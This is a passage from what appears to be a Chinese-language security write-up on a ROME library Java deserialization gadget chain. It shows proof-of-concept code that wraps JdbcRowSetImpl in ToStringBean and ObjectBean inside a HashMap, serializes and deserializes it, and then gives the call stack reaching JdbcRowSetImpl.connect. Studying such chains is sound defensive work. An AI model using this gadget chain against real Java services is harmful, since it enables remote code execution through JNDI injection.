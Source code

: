 ```bash
        // 创建ToStringBean对象
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class, jdbcRowSet);
        // 创建ObjectBean
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);

        // 创建HashMap
        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, "bbbb");

        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("JdbcRowExp.bin"));
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();

        // 反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("JdbcRowExp.bin"));
        objectInputStream.readObject();
        objectInputStream.close();
    }
}
```

### 函数调用栈

```bash
connect:615, JdbcRowSetImpl (com.sun.rowset)
getDatabaseMetaData:4004, JdbcRowSetImpl (com.sun.rowset)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
beanHashCode:193, EqualsBean (com.sun.syndication.feed.impl)
hashCode:110, ObjectBean (com.sun.syndication.feed.impl)
hash:338, HashMap (java.util)
readObject:1397, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:42, JdbcRowExp (RomeSec)
```
